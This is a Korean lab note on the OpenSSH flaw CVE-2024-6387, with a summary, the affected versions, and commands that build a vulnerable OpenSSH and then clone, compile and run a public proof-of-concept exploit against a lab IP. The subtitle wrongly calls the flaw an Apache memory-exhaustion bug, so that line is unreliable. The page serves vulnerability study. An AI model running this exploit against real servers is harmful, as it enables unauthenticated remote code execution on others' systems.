 ```yaml
---
layout: default
title: cve-2024-6387
category: "OpenSSH"
nav_order: 3
parent: cve
---
```


# CVE-2024-6387
{: .no_toc }

Apache 서버 메모리 고갈 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
OpenSSH 비동기 신호 처리의 경합 조건으로 인해 인증되지 않은 공격자가 임의의 코드를 실행할 수 있는 취약점

{: .note-title }
> **비동기 신호 처리**는 시스템 프로그래밍에서 특정 이벤트가 발생할 때 운영 체제가 실행 중인 프로그램의 흐름을 일시적으로 중단하고, 미리 등록된 신호 처리기(signal handler)를 호출하여 해당 이벤트를 처리하는 메커니즘

## 1.2 취약 대상
OpenSSH 8.5p1 ~ 9.8p1

## 1.3 공격 원리
- 


## 1.4 환경 구현
## poc 환경 둘다 취약한 openssh 버전 필요
sudo apt update
sudo apt upgrade
sudo apt install build-essential autoconf automake libtool pkg-config
sudo apt install build-essential libssl-dev zlib1g-dev

sudo useradd -r -d /var/run/sshd -s /usr/sbin/nologin sshd

wget https://cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-8.5p1.tar.gz
tar -xzf openssh-8.5p1.tar.gz
cd openssh-8.5p1
./configure --without-zlib-version-check
make
sudo make install

sudo /usr/local/sbin/sshd
ps aux | grep sshd


git clone https://github.com/lflare/cve-2024-6387-poc.git
cd cve-2024-6387-poc

sudo apt install libssl-dev
gcc -o regresshion 7etsuo-regreSSHion.c -lcrypto

./regresshion 192.168.72.1

